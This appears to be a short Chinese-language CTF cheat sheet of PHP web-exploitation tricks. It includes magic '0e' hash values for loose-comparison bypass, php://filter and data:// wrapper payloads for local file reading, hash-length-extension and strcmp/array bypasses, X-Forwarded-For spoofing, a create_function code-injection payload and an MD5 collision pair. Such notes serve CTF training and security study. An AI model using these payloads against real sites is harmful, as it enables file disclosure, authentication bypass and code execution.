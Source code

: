 - 构造数组绕过sha1，md5等
- 类型转换 0e开头
- 0e开头的md5`QNKCDZO 240610708 s878926199a s155964671a s214587387a s214587387a sha1(str) sha1('aaroZmOk')  sha1('aaK1STfY') sha1('aaO8zKZF') sha1('aa3OFF9m')`
- 弱比较，变量覆盖
- 构造文件
    - php://input 数据放message body（比较方便）
    - data://text/plain;base64,<加密后的数据>
- include() 暴露本地文件 `php://filter/read=convert.base64-encode/resource=<filename>`
- php `intval()`将取INT32(64)_MAX或INT32(64)_MIN来避免溢出，32位系统上 intval(1111111111111) = 2147483647
- `is_numeric`的结果受空字符影响，`is_numeric('33 ') == false`
- php `chr()`收到不在0-255的参数将对其处理到0-255后返回ascii码
```php
while ($ascii < 0) {
    $ascii += 256;
}
$ascii %= 256;
```
- 哈希扩展攻击，可以使用hashpumpy这个库(python2)，有单独executable
- 伪造IP: X-Forwarded-For
- 字符串连接，base64绕过关键词过滤
- strcmp比较数组、函数、对象会返回NULL，可用于绕过。
- `(int)('9223372036854775808' + 0) == -9223372036854775808`
- create_function代码执行
```
$funstring = 'return -1 * var_dump($a[""]);}phpinfo();/*"]';
$unused = create_function('',$funstring);
```

- md5碰撞
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
- system_id = md5(php_version + zend_extension_id + zend_bin_id).hexdigest()
